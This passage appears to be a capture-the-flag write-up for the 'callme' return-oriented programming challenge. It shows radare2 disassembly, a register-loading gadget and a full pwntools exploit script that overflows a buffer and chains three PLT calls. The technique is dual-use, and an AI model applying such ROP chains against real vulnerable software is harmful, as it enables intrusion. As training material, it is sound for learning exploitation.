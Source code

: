 ```
        ╎   ; CALL XREF from sym.usefulFunction @ 0x400905
┌ 6: sym.imp.callme_three ();
│ bp: 0 (vars 0, args 0)
│ sp: 0 (vars 0, args 0)
│ rg: 0 (vars 0, args 0)
└       ╎   0x004006f0      ff2532092000   jmp qword [reloc.callme_three] ; [0x601028:8]=0x4006f6
        ╎   0x004006f6      6802000000     push 2                      ; 2
        └─< 0x004006fb      e9c0ffffff     jmp sym..plt

```

So now we have the addresses where we want to jump in order to call the three function without using the call instruction (that will mess our stack)
we can also use into our script a facility of pwntools that contains alredy thhose addresses:
```python
elf = ELF('callme')

callme_one   = elf.plt['callme_one']   
callme_two   = elf.plt['callme_two']   
callme_three = elf.plt['callme_three'] 
```
and now we need the gadget that insert the parameter into the register using inside radare2 the command /R pop :

```
  0x0040093c                 5f  pop rdi
  0x0040093d                 5e  pop rsi
  0x0040093e                 5a  pop rdx
  0x0040093f                 c3  ret
```
one of those gadget is this.

knowing that the offset in this case is of 40 bytes we have all that we need in order to solve this challenge.

```python
from pwn import *
context.binary = elf = ELF('./callme')

offset = 40

pop_rdi_rsi_rdx = 0x40093c
callme_one   = elf.plt['callme_one']   
callme_two   = elf.plt['callme_two']   
callme_three = elf.plt['callme_three'] 

arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d

# order argument edi esi edx 

insert_prm = p64(pop_rdi_rsi_rdx)+p64(arg1)+p64(arg2)+p64(arg3)

payload = b'A'*offset + insert_prm + p64(callme_one) + insert_prm + p64(callme_two) + insert_prm + p64(callme_three)

p = elf.process()
#gdb.attach(p)

p.recv()
p.sendline(payload)
#p.interactive
log.info(p.recvall())

```